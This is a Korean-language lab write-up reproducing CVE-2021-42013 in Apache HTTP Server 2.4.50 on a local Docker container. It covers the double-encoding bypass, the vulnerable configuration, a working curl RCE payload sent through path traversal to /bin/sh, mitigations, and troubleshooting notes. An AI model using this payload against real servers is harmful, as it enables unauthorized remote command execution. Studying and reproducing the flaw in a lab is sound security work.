

# CVE-2021-42013 
> Apache HTTP Server 2.4.49 / 2.4.50에서 발견된 취약점으로경로 탐색 문자열에 대한 필터링 미흡으로 발생하는 취약점

## 취약점 요약
+ **발생 원인** 
    + (**CVE-2021-41773**을 패치 하였으나 그 패치가 불완전하여 다시 뚫린 경우)
        + CVE-2021-41773 - Apache 2.4.49에서 URL 정규화 로직의 결함으로 `.%2e`, `%2.`, `%2e%2e`등으로 인코딩된 상위 디렉터리 표현을 정상적으로 차단하지 못하여 인코딩을 통한 공격이 가능한 취약점
    + `%2e`와 같은 인코딩 표현들은 막았으나 인코딩을 한 번 더 겹쳐서 `%%32%65` 와 같이 요청하면 경로 순회가 그대로 재현됨

+ **이로 인해 발생할 수 있는 문제**
    1. path traversal 가능
    2. 특정 조건이 갖춰지면 원격 명령 실행 가능 (CVSS 9.8) <- 이번 PoC 목표
        + **특정 조건:** mod_cgi 활성화 + cgi-bin 실행 권한 조건
         + *cgi - common gateway interface, 웹서버가 외부 프로그램 및 스크립트를 실행하고, 그 실행 결과를 웹 응답으로 돌려주는 방식
 
## 환경 구성
- **베이스 이미지:** httpd:2.4.50
- **구성 파일:** Dockerfile(Apache 2.4.50 이미지 빌드, 취약 설정 파일을 적용하는 빌드 스크립트), docker-compose.yml(이미지 빌드부터 컨테이너 실행, 포트 매핑까지 처리하는 실행 설정 파일), httpd.conf(mod_cgi 활성화, cgi-bin 실행 권한, 전역 접근 허용 등 취약 조건을 반영한 Apache 설정 파일)
- **주요 설정 변경 사항:** 
    1. `<Directory />`: Require all denied -> Require all granted
        + (전역 접근 차단 해제, 이 설정이 유지되면 경로 순회로 문서 루트를 벗어나도 접근이 거부되어 취약점이 발견되지 않음)
    2. `<Directory cgi-bin>`: Options None -> Options +ExecCGI
        + (cgi-bin 디렉토리에서 CGI 스크립트 실행을 허용, 이 설정이 유지되면 경로 순회로 파일에 접근은 가능해도 명령 실행까지는 이어지지 않음)
    3. mod_cgid 활성화
        + (CGI 요청을 처리하는 모듈, 비활성화되어있으면 cgi-bin 자체가 동작하지 않아 공격 경로가 성립하지 않음)

## 취약 조건
- mod_cgi(cgid) 활성화
- cgi-bin에 Options +ExecCGI
- `<Directory />`가 Require all granted로 설정되어있어야 함

## 재현 절차
1. `cd Apache/CVE-2021-42013` (위치 이동)
2. `docker compose up -d --build` (이미지 빌드 후 컨테이너를 백그라운드로 실행)
3. curl 실행

## PoC 코드
curl.exe -v --path-as-is -d "echo Content-Type: text/plain; echo; id" "http://localhost:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh"
* Host localhost:8080 was resolved.
<!--
curl.exe <- 실제 curl 프로그램
-v <- 요청, 응답 전테 통신 과정을 화면에 출력
--path-as-is <- ../나 인코딩된 경로를 curl이 자체적으로 정규화하지 않고 입력한 그대로 전송
-d "echo ~~~~~; id" <- POST 요청이 body로 전송할 데이터 /bin/sh가 표준 입력으로 받아 셸 명령으로 실행
.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65 <- ../../../../../../
-->

## 실행 결과

## 대응 방안
1. httpd 업데이트 (2.4.51 이상)
2. `<Directory />`를 Require all denied로 유지

### 시행착오
1. httpd.conf가 UTF-16으로 저장됨 -> No MPM loaded 에러 발생 -> UTF-8로 재저장하여 해결
2. cgi-bin에 파일 읽기 시도 시 403 발생 -> 원인: 대상 파일(/etc/passwd)이 실행 권한이 없어 cgi 핸들러가 거부
3. 2번을 /icons/alias로 우회 시도 (/cgi-bin은 파일을 실행 가능한지 검사하지만 /icons는 그냥 내용만 보여주니까 실행권한 문제를 피하기 위해 시도함)-> 여전히 403 -> 원인: 이 설정 파일에는 /icons/alias 자체가 비활성화되어있어 무의미한 시도였음
4. `<Directory />`가 기본값 Require all denied로 되어있어 순회 자체가 최종적으로 차단됨을 확인 -> Require all granted로 변경
5. /etc/passwd 대신 실행 가능한 /bin/sh를 대상으로 POST 요청 전송 -> RCE 성공 (uid=1(daemon)~~~~~)